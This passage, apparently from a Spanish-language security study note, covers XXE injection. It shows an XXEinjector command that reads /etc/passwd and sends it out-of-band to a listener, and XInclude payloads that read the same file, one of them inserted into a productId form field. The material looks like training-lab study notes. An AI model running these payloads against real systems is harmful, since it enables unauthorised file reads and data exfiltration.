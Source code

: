 Ahora, podemos ejecutar la herramienta:

- con las opciones `--host` y `--httpport` siendo nuestra IP y puerto
- la opcion `--file` es el archivo que escribimos arriba 
- la opcion `--path` es el archivo que queremos leer
- la opcion `--oob=http` y `--phpfilter` para repetir el ataque OOB con un archivo externo y codificando en base64.

```bash
ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

## XInclude ataques

Algunas aplicaciones reciben datos enviados por el cliente, los incrustan en el lado del servidor en un documento XML y luego analizan el documento. 

En esta situación, no puede realizar un ataque XXE clásico, porque no controla todo el documento XML y, por lo tanto, no puede definir o modificar un elemento `DOCTYPE`. Sin embargo, es posible que pueda usar `XInclude` en su lugar. `XInclude` es una parte de la especificación XML que permite crear un documento XML a partir de subdocumentos. Puede colocar un `XInclude` ataque dentro de cualquier valor de datos en un documento XML, por lo que el ataque se puede realizar en situaciones en las que solo controla un solo elemento de datos que se coloca en un documento XML del lado del servidor.

Podemos tener un envio de datos que aparentemente no usa XML:

![[Pasted image 20230204224645.png]]

Pero si uno de los valores enviados en el servidor es incrustado en un documento XML, aun es vulnerable a XXE Injection.
Burpsuite detecta esto con el Burpsuite active scan:

![[Pasted image 20230204224842.png]]

Al no existir una estructura XML, podemos intentar un ataque con **XInclude**.

Para realizar un ataque `XInclude`, debe hacer referencia al espacio `XInclude` de nombres y proporcionar la ruta al archivo que desea incluir. Por ejemplo:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">  
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

esta carga util debemos colocar reemplazando en el valor afectado o que es vulnerable a la inyeccion:

```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

>[!note]
>La carga util debe ir en una misma linea sin salto de linea (`\n`)

![[Pasted image 20230204225124.png]]
